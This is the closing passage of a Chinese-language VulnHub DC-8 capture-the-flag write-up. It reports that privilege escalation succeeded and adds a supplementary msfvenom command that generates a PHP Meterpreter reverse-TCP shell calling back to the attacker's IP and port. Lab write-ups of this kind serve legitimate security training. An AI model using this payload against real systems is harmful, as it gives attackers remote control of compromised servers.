 ![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC8/15.png)

提权成功,感谢靶机作者 @DCUA7

---

# 补充

php 反弹 shell 那一步除了网上找到的 php 源码外,还可以直接回弹个 meterpreter shell,一条命令生成
```
msfvenom -p php/meterpreter_reverse_tcp lhost=your-ip lport=your-port -f raw > shell.php
```
